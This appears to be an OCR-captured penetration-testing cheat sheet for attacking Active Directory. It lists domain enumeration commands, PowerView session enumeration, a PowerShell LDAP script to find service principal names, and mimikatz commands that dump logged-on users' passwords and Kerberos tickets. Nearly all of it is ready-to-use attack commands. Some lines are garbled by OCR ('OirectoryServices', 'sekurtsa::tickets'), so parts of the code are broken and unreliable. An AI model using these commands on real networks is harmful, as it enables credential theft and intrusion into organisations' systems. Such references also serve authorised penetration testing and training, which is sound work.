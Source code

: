 ## Active Directory

* Enumerate users and groups

```
net user /domain
net user jeff_admin /domain
net group /domain
```

* Domain controller information

```
[System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()
```

* Enumerate Logged on Users

```
Import-Module .\PowerView.ps1

// logged in users on local desktop
Get-NetLoggedon -ComputerName client251

// active sessions on DC
Get-NetSession -ComputerName dc01
```

* Enumerate SPNs to find registered services ip and port

Change `Searcher.filter` accordingly

```
$domainObj = [System.DirectoryServices.ActiveDirectory.Domain] ::GetCurrentDomain()

$PDC = ($domainObj.PdcRoleOwner).Name

$SearchString = "LDAP://"
$SearchString += $PDC + "/"

$DistinguishedName = "DC=$($domainObj.Name.Replace('.', ',DC='))"

$SearchString += $DistinguishedName

$Searcher= New-Object System.OirectoryServices.DirectorySearcher([ADSI]$SearchString)

$objDomain = New-Object System.DirectoryServices.DirectoryEntry

$Searcher.SearchRoot = $objDomain

$Searcher.filter= "serviceprincipalname=*http*"

$Result= $Searcher.FindAll()

Foreach($obj in $Result)
{
Foreach($prop in $obj.Properties)
{
$prop
}
}
```

* Dump password hashes stored locally

```
mimikatz.exe
mimikatz# privilege::debug

// dump the credentials of all logged-on users
mimikatz# sekurlsa::logonpasswords

// dump TGT and TGS tickets of all logged on users
sekurtsa::tickets
```